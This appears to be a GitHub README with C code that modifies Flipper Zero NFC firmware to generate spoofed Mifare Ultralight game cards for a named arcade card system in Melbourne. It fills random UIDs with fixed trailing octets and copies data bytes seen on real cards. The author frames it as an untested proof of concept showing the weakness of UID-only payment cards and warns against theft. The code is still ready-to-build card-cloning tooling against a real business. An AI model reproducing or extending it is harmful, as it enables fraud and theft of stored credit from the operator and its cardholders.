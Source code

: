 # flipper_NFC_gamecard_hack

In Melbourne AU we have a popular arcade chain that uses the EMBED card system with Mifare ULTRALIGHT cards for game cards. I did some checks with the small pool of cards I have and found the last 2 octets are not changing from 0x00.

This is a modded file for the built in flipper NFC app that adds the option to create a random game card based off my findings. In theory it should work but who knows. I dont think it checks data stored on the card.

DO NOT USE THIS TO STEAL OTHER PEOPLES MONEY. THIS IS A PROOF OF CONCEPT TO SHOW THE INSECURITY OF ONLY USING THE UID IN A CARD BASED MONEY SYSTEM. I HAVE NOT TESTED THIS AT ALL. THE CHANCE OF YOU FINDING A CARD THAT HAS MONEY, IS A STAFF, A TECH OR A VALID CARD IS SUPER LOW. YOU WILL PROBABLY GET SPOTTED BY A STAFF MEMBER IF YOU ARE TRYING THIS. IT IS NOT MY RESPONSIBILITY IF YOU GET CAUGHT, FINED, BANNED, JAILED OR THE EARTH OPENS UP AND SWALLOWS YOU WHOLE.

Please note that I cannot program in C or C++ or any form of C programming. I can do python, AutoIT, Arduino, Bash and Batch but I'm waaaaay out of practice. This is just hacked up using what was already there in the unleashed firmware. The file is prob different in OG, Roguemaster or any other firmware you want to use.

Instructions:
Copy this file over the top of the original file and build the firmware. tested with unleashed 018

Do not copy to the flipper. nothing will change.


My changes to the original file are below.

Added: 

```
static void nfc_generate_mf_tz_uid(uint8_t* uid) {
    uid[0] = NXP_MANUFACTURER_ID;
    furi_hal_random_fill_buf(&uid[1], 6);
    // Timezone use 00 on last 2 octets with the sample size ive tested. 
    uid[5] = 0x00;
    uid[6] = 0x00;
}
```

```
static void nfc_generate_mf_tz_common(NfcDeviceData* data) {
    data->nfc_data.type = FuriHalNfcTypeA;
    data->nfc_data.interface = FuriHalNfcInterfaceRf;
    data->nfc_data.uid_len = 7;
    nfc_generate_mf_tz_uid(data->nfc_data.uid);
    data->nfc_data.atqa[0] = 0x44;
    data->nfc_data.atqa[1] = 0x00;
    data->nfc_data.sak = 0x00;
    data->protocol = NfcDeviceProtocolMifareUl;
}
```

```
static void nfc_generate_mf_tz_orig(NfcDeviceData* data) {
    nfc_generate_common_start(data);
    nfc_generate_mf_tz_common(data);

    MfUltralightData* mful = &data->mf_ul_data;
    mful->type = MfUltralightTypeUnknown;
    mful->data_size = 16 * 4;
    mful->data_read = mful->data_size;
    nfc_generate_mf_ul_copy_uid_with_bcc(data);
    // Theres some carry over data between the few cards I have here. This data is below.
    memset(&mful->data[9], 0x48, 1);
    memset(&mful->data[10], 0xF0, 1);
    // There looks to be some random data for bytes 16 to 31. 
    furi_hal_random_fill_buf(&mful->data[16], 16);

}
```

```
static const NfcGenerator mf_tz_generator = {
    .name = "Mifare (Timezone)",
    .generator_func = nfc_generate_mf_tz_orig,
    .next_scene = NfcSceneMfUltralightMenu,
};
```

And added ``` &mf_tz_generator, ``` to ``` const NfcGenerator* const nfc_generators[] = { ```
